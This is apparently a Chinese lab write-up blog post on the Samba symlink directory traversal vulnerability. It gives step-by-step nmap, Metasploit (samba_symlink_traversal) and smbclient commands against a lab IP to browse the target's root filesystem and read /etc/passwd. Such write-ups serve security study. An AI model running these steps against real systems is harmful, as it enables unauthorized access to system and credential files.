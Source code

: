 ```yaml
---
title: sysmlink漏洞
date: 2021-12-20 16:32:26
tags: 
    - sysmlink
    - msf
---
```


## sysmlink 目录遍历漏洞

### 利用sysmlink漏洞读取目标主机的passwd文件内容

#### 原理：Samba是一套实现SMB（server messages block）协议，跨平台进行文件共享和打印共享服务的程序，samba的sambd默认配置在可写文件共享时，存在目录遍历漏洞，远程用户可以通过smbclient端使用一个对称命，创建一个包含..的目录遍历符的软连接 ，可以进行目录遍历以及访问任意文件。

### 过程：

使用`nmap -sV ip` 扫描主机，确认开放`445`，`139`端口且安装了`samba`服务，版本为3

![image-20211220165606561](http://121.5.125.62:88/image/sysmlink漏洞/image-20211220165606561.png)

命令行输入`search samba`，搜索samba的相关工具和载荷。

![image-20211220173445099](http://121.5.125.62:88/image/sysmlink漏洞/image-20211220173445099.png)

终端中输入`use auxiliary/admin/smb/samba_symlink_traversal`，启用漏洞利用模块

输入`info`，`"yes"`表示必须要填写的信息

![image-20211220173527544](http://121.5.125.62:88/image/sysmlink漏洞/image-20211220173527544.png)

输入`set RHOST 192.168.1.3`和`set SMBSHARE tmp`，设置主机ip地址和SAM可写文件

输入exploit开始攻击

![image-20211220173602852](http://121.5.125.62:88/image/sysmlink漏洞/image-20211220173602852.png)

新建终端，输入`smbclient //192.168.1.3/tmp`，直接回车，无密码

输入`cd rootfs`,进入rootfs目录，输入ls，列出目录

![image-20211220173635907](http://121.5.125.62:88/image/sysmlink漏洞/image-20211220173635907.png)

输入`more /etc/passwd`

![image-20211220173656794](http://121.5.125.62:88/image/sysmlink漏洞/image-20211220173656794-16399930170041.png)

此实验完成

